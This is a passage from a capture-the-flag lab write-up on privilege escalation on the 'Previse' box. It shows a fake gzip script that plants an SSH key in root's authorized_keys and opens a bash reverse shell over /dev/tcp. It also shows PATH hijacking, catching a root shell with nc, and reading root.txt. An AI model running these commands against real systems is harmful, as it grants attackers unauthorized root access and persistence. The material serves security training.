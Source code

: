     # enable root ssh
    mkdir -p /root/.ssh
    echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing" >> /root/.ssh/authorized_keys

    # rev shell
    bash -i >& /dev/tcp/10.10.14.6/443 0>&1



Now I'll set my path to start with `/dev/shm`:



    m4lwhere@previse:/dev/shm$ export PATH=/dev/shm:$PATH
    m4lwhere@previse:/dev/shm$ echo $PATH
    /dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin



Now when the script goes to call `gzip`, the first one it will find is
mine and run it. I'll start `nc` and run:



    m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh



It hangs, but at `nc`:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.11.104] 53814
    root@previse:/dev/shm# id
    uid=0(root) gid=0(root) groups=0(root)



Also, I'm authorized to connect as root over SSH:



    oxdf@parrot$ ssh -i ~/keys/ed25519_gen root@10.10.10.104
    ...[snip]...
    root@previse:~# 



Either way, I can grab `root.txt`:



    root@previse:~# cat root.txt
    94b864e9************************



## Beyond Root
